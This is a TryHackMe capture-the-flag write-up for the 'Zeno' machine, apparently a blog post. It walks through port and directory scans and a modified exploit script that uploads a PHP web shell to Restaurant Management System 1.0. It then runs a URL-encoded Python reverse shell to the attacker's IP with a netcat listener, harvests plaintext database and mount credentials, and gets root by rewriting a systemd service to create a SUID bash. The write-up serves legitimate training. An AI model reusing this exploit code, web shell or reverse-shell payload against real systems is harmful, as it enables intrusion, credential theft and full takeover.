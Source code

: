 ```yaml
---
layout: post
title:  "Zeno"
categories: [tryhackme]
tags: [linux, rce, upload, vi, service, linpeas]
---
```


You can find this machine here : `https://tryhackme.com/room/zeno`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn zeno.thm -p-

PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ gobuster dir -u http://zeno.thm:12340/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowerca
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zeno.thm:12340/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2022/02/25 20:00:44 Starting gobuster in directory enumeration mode
===============================================================
/rms                  (Status: 301) [Size: 239] [--> http://10.10.190.102:12340/rms/]
```

![image]( /assets/img/zeno/1.PNG)

### Restaurant Management System 1.0 - Remote Code Execution


```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ searchsploit Restaurant Management System
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Restaurant Management System 1.0 - Remote Code Execution                         | php/webapps/47520.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                   
┌──(kali㉿Zeus)-[~/Desktop]
└─$ locate php/webapps/47520.py
/usr/share/exploitdb/exploits/php/webapps/47520.py
                                                                                                                   
┌──(kali㉿Zeus)-[~/Desktop]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/47520.py .
```

- Modified Script

```python
import requests
import sys

url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"



headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://zeno.thm:12340/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")
```

### Upload The Backdoor

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ python3 47520.py http://zeno.thm:12340/rms/
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://zeno.thm:12340/rms/images/reverse-shell.php
```

### Reverse Shell

- Browser

```bash
http://zeno.thm:12340/rms/images/reverse-shell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.18.45.56%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

- Listener

```bash
┌──(kali㉿Zeus)-[~]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [10.18.45.56] from (UNKNOWN) [10.10.190.102] 51022
sh-4.2$
```

![image]( /assets/img/zeno/2.PNG)

### Database Credentials

Credentials Location : `/var/www/html/rms/connection/config.php`

```php
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
```

![image]( /assets/img/zeno/3.PNG)

### LinPeas

![image]( /assets/img/zeno/4.PNG)

- Found Possible Credentials

![image]( /assets/img/zeno/5.PNG)

```
/etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=Frobj<REMOVED>anJa,domain=localdomain,soft 0 0
```

- Edward Credentials

```
edward : FrobjoodAdkoonceanJa
```

### User Owned

![image]( /assets/img/zeno/6.PNG)

### Root PrivEsc - Writable Service

```bash
[edward@zeno ~]$ sudo -l

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
[edward@zeno ~]$ 
```

- Run LinPeas as edward

```bash
/etc/systemd/system/multi-user.target.wants/zeno-monitoring.service
/etc/systemd/system/zeno-monitoring.service
```

![image]( /assets/img/zeno/7.PNG)


- Old `zeno-monitoring.service`

```bash 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

![image]( /assets/img/zeno/8.PNG)


- New `zeno-monitoring.service` using vi


1. vi zeno-monitoring.service
2. Go to ExecStart line using arrows
3. Press i for INSERT
4. Replace the `/root/zeno-monitoring.py` with the `/bin/bash -c "cp /bin/bash /home/edward/bash; chmod +s /home/edward/bash"`
6. Press ESC 2 or more times
7. Press :x!

```bash 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/bash; chmod +s /home/edward/bash"

[Install]
WantedBy=multi-user.target
```

### Root Owned

Resource : `https://book.hacktricks.xyz/linux-unix/privilege-escalation#cron-path`

```bash
[edward@zeno system]$ sudo -u root /usr/sbin/reboot
```

![image]( /assets/img/zeno/10.PNG)